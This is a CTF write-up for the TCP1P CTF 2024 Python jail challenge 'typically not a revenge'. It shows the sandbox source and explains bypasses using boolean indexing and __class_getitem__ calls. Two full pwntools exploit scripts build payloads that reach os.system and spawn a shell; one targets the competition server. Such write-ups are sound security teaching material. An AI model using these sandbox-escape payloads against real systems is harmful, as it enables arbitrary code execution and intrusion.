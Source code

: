 # TCP1P CTF 2024 typically not a revenge

```python
#!/usr/bin/env python3
code = '''
import sys
import posix

__builtins__ = sys._getframe(0).f_builtins

for _ in unsafe_builtins:
    del __builtins__[_]
unsafe_builtins.clear()

posix.__dict__.clear()
sys.modules.clear()
for _ in sys.__dict__:
    sys.__dict__[_] = None

del sys, posix
'''

unsafe_builtins = []
unsafe_chars = 'FT!"#$%&\'()*+-,/;<=>?@\\^`{|}~0123456789\t\n\v '

for _ in __builtins__.__dict__:
    if not isinstance(__builtins__.__dict__[_], type):
        unsafe_builtins.append(_)
    elif _.startswith('_'):
        unsafe_builtins.append(_)
    elif _[0].islower():
        unsafe_builtins.append(_)

user_input = input('Enter code: ').strip()
for c in set(user_input):
    if c in unsafe_chars:
        assert 0, 'Unsafe character detected!'

assert len(user_input.split('\r')) < 3
assert user_input.isascii()
exec(code + user_input, {'unsafe_builtins': unsafe_builtins}, {})
```

Requirements:

1. No numbers: Use `arr[[]is[]]` for `arr[0]`, `arr[not[]is[]]` for `arr[1]`, `arr[not[]is[]:][not[]is[]]` for `arr[2]`
2. No parens: Use `[obj[arg] for obj.__class_getitem in [function_to_call]]` to call function
3. No assignments or commas: Use `[... for a in [b] for c in [d]]`
4. No spaces: Use `\f` i.e. form feed
5. No builtins: Use `[].__class__.__base__.__subclasses__()`
6. No sys module: Use `<class 'os._wrap_close'>` to find system

Inspired by writeup by @ayapi on Discord, although we use the different attack route eventually:

```python
from pwn import *
import sys

def bool2index(n):
    if n == 0:
        return '[[]is[]]'
    elif n == 1:
        return '[not[]is[]]'
    elif n > 1:
        return ''.join('[not[]is[]:]' for x in range(n-1))+'[not[]is[]]'

payload = f'''
try:__loader__
except Exception as e:[[[[[[[[[[[[[[[[[[[[cls[sh] for cls.__class_getitem__ in [system]] for sh in [cls[h]]] for cls.__class_getitem__ in [s.__add__]] for system in [cls[cls].system]] for cls.__class_getitem__ in [cls.get_source.__globals__[k{bool2index(7)}].__loader__.create_module]] for cls.name in [cls[x]]] for cls.get_source.__globals__[k{bool2index(9)}].builtin_module_names in [[cls[x]]]] for cls.__class_getitem__ in[cls[i].__add__]] for cls.__class_getitem__ in[cls[s].__add__]] for cls.__class_getitem__ in [cls[o].__add__]] for cls.__class_getitem__ in [k{bool2index(2)}{bool2index(2)}.__add__]] for h in [k{bool2index(11)}{bool2index(4)}]] for o in [k{bool2index(1)}{bool2index(3)}]] for s in [k{bool2index(4)}{bool2index(2)}]] for i in [k{bool2index(5)}{bool2index(4)}]] for x in [k{bool2index(21)}{bool2index(10)}]] for k in [cls[cls.get_source.__globals__]]] for cls.__class_getitem__ in [list]] for list in [[].__class__]] for cls in [e.__traceback__.tb_frame.f_back.f_globals[e.name].__class__]]
'''.strip().replace('\n', '\r').replace(' ', '\f')

r = remote('ctf.tcp1p.team', 32771)
r.sendline(payload.encode())
r.interactive()
```

To call function, we need a mutable object to write to its `__class_getitem__`:

```python
for x in __builtins__.__dict__:
    try:
        __builtins__.__dict__[x].__class_getitem__ = print
        print(x)
    except:
        pass
```

Output:

```
__loader__
__spec__
ExceptionGroup
quit
exit
copyright
credits
license
help
```

Here `ExceptionGroup` is not a member of `unsafe_builtins`, so we can use it for function call.

Steps:

1. Call `[].__class__.__base__.__subclasses__()` via `ExceptionGroup.__class_getitem__`
2. Locate `<class '_sitebuiltins._Helper'>` and `<class 'os._wrap_close'>` in the subclasses using the array index mechanism of `[False]`, `[True]`, `[True:][True]` ...
3. Synthesize `"system"` and `"sh"` from `_sitebuiltins._Helper.__doc__` via `"s".__add__("y").__add__("s").__add__("t").__add__("e").__add__("m")`
4. Find `system` in `<class 'os._wrap_close'>.__init__.__globals__["system"]`
5. Call `system("sh")`

Attach script:

```python
from pwn import *

context(log_level="debug")

subclasses = str(().__class__.__base__.__subclasses__())

# find the indices of the builtins
# assuming we are using the same Python version as remote

# assuming os_wrap_close is at 158
os_index = 158
assert subclasses.split(", ").index("<class 'os._wrap_close'>") == os_index
# assuming Helper is at 161
helper_index = 161
assert subclasses.split(", ").index("<class '_sitebuiltins._Helper'>") == helper_index

helper_doc = ().__class__.__base__.__subclasses__()[helper_index].__doc__


def get_index(index):
    # learn from @ayapi
    if index == 0:
        return "[[]is[]]"  # [False] i.e. [0]
    elif index == 1:
        return "[not[]is[]]"  # [True] i.e. [1]
    else:
        return (
            "".join(["[not[]is[]:]"] * (index - 1)) + "[not[]is[]]"
        )  # [True:][True:][True] i.e. [3]


p = process(["python3", "jail.py"])
p.sendline(
    (
        "[None "
        # [].__class__.__class__ = type
        # ExceptionGroup.__class_getitem__ = type.__subclasses__
        + "for ExceptionGroup.__class_getitem__ in [[].__class__.__class__.__subclasses__]"
        # locate helper: type.__subclasses__([].__class__.__base__))[helper_index]
        + f"for helper in [ExceptionGroup[[].__class__.__base__]{get_index(helper_index)}]"
        # locate os._wrap_close: type.__subclasses__([].__class__.__base__))[os_index]
        + f"for os in [ExceptionGroup[[].__class__.__base__]{get_index(os_index)}]"
        # read helper_doc
        + "for S in [helper.__doc__]"
        # prepare to synthesize "system" and "sh"
        + f"for s in [S{get_index(helper_doc.index("s"))}]"
        + f"for y in [S{get_index(helper_doc.index("y"))}]"
        + f"for t in [S{get_index(helper_doc.index("t"))}]"
        + f"for e in [S{get_index(helper_doc.index("e"))}]"
        + f"for m in [S{get_index(helper_doc.index("m"))}]"
        + f"for h in [S{get_index(helper_doc.index("h"))}]"
        # synthesize "system"
        + "for ExceptionGroup.__class_getitem__ in [s.__add__]"
        + f"for sy in [ExceptionGroup[y]]"
        + "for ExceptionGroup.__class_getitem__ in [sy.__add__]"
        + f"for sys in [ExceptionGroup[s]]"
        + "for ExceptionGroup.__class_getitem__ in [sys.__add__]"
        + f"for syst in [ExceptionGroup[t]]"
        + "for ExceptionGroup.__class_getitem__ in [syst.__add__]"
        + f"for syste in [ExceptionGroup[e]]"
        + "for ExceptionGroup.__class_getitem__ in [syste.__add__]"
        + f"for system in [ExceptionGroup[m]]"
        # synthesize "sh"
        + "for ExceptionGroup.__class_getitem__ in [s.__add__]"
        + f"for sh in [ExceptionGroup[h]]"
        # ExceptionGroup.__class_getitem__ = os.__init__.__globals__[system]
        + "for ExceptionGroup.__class_getitem__ in [os.__init__.__globals__[system]]"
        # call system("sh")
        + "for _ in [ExceptionGroup[sh]]"
        + "]"
    )
    .replace(" ", "\f")
    .encode()
)
p.interactive()
```

Here is the attack steps used in @ayapi's writeup on Discord:

1. Set `sys.builtin_module_names = ["posix"]`
2. Create `posix` module via `posix = builtins.__loader__.create_module([builtins.__spec__ for builtins.__spec__.name in ["posix"]][0])` (learned from [Pyjail Cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet/))
3. Call `posix.system("sh")`

